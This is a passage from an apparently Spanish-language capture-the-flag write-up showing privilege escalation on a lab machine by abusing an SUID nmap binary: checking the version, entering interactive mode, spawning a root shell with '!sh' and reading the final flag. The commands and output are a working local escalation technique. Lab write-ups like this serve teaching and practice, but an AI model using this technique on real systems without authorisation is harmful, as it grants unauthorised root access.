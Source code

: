 
### Abuso del binario nmap con SUID

Nos llama la atención especialmente el binario `nmap` ya que no es típico que este binario posea este tipo de permisos. Si realizamos una consulta en [GTFOBins](https://gtfobins.github.io/) encontramos que con este binario podemos activar el modo interactivo, disponible en las versiones `2.02` a `5.21` y así ejecutar comandos de shell.

![nmap](nmap.png)

Verificamos la versión de `nmap` disponible en el sistema.

```bash
robot@linux:~$ /usr/local/bin/nmap --version
/usr/local/bin/nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
```

Una vez que hemos obtenido acceso como usuario `root`, podemos ingresar a su directorio principal y leer la última bandera de la máquina.

```bash
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
```

Finalmente, podemos acceder a la bandera del usuario root en su directorio principal y leerla.

```bash
# cd /root
cd /root
# ls
ls
firstboot_done	key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee****************
```

¡Happy Hacking!
